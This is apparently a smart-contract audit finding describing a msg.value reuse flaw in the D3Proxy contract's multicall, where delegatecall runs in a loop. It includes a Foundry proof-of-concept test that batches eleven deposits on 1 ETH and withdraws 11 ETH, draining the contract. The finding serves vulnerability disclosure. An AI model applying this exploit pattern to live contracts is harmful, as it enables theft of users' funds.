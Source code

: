 Salty Brown Kangaroo

high

# Unsafe Usage Of delegatecall in D3Proxy

## Summary

## Vulnerability Detail
The D3Proxy contract employs the delegatecall pattern, allowing user-provided calldata in a payable function within a loop. Consequently, each delegatecall in the loop retains the original msg.value of the transaction that triggered the multicall() function. During a delegatecall, both msg.sender and msg.value persist. This exposes a potential vulnerability where an attacker could batch multiple calls to contract functions, thereby reusing msg.value across every call.


## Impact
Exploit Scenario

An attacker could potentially exploit the userDeposit() function, which acquires tokens based on the msg.value. By leveraging the batching functionality, the attacker could inflate their ETH balance without genuinely transferring funds from their account. This malicious action allows them to illicitly siphon funds from the system. In a proof of concept (POC), we can gain a clearer understanding of this issue, demonstrating how a user with only 1 ETH can withdraw all available funds from the contract.

```solidity
   function testUserDepositBatch() public {

        vm.deal(address(d3Proxy),  10 ether);

            vm.prank(vaultOwner);
            d3Vault.addNewToken(
                address(weth), // token
                1000 * 1e18, // max deposit
                500 * 1e18, // max collateral
                90 * 1e16, // collateral weight: 90%
                110 * 1e16, // debtWeight: 110%
                10 * 1e16 // reserve factor: 10%
            );
            
            (address dToken,,,,,,,,,, uint256 bVaultReserve) = d3Vault.getAssetInfo(address(weth));
            
            vm.deal(user1, 1 ether);
            vm.prank(user1);
                    // construct swap bytes data
         SwapCallbackData memory swapData;
         swapData.data = "";
         swapData.payer = user1;
 
         bytes memory swapDataBytes = abi.encodeWithSignature(
             "userDeposit("
                "address,"
                "address,"
                "uint256,"
                "uint256"
                ")", 
             user1,
             _ETH_ADDRESS_, 
             1 ether, 
             1 ether
         );

       
         // construct multicall data so that we can deposit 10 times our initial balance the contract wont revert with not enough balance 
         bytes[] memory mulData = new bytes[](11);
         mulData[0] = swapDataBytes;
         mulData[1] = swapDataBytes;
          mulData[2] = swapDataBytes;
          mulData[3] = swapDataBytes;
          mulData[4] = swapDataBytes;
          mulData[5] = swapDataBytes;
          mulData[6] = swapDataBytes;
          mulData[7] = swapDataBytes;
          mulData[8] = swapDataBytes;
          mulData[9] = swapDataBytes;
          mulData[10] = swapDataBytes;
          
        d3Proxy.multicall{value: 1 ether}(mulData);
        vm.prank(user1);

        D3Token(dToken).approve(address(dodoApprove), type(uint256).max);
        vm.prank(user1);

        d3Proxy.userWithdraw(user1, _ETH_ADDRESS_, 11 ether, 11 ether);
        console.log("user balance after withdrawing:",user1.balance);
        console.log("contract balance:",address(d3Proxy).balance);//this will be 0
      
    }
  ```




## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo/blob/main/dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L56-L69

## Tool used

Manual Review, Foundry


## Recommendation
This article from Pradigm helped me as well to understand the issue .
 [”Two Rights Might Make a Wrong,”](https://www.paradigm.xyz/2021/08/two-rights-might-make-a-wrong) By Paradigm

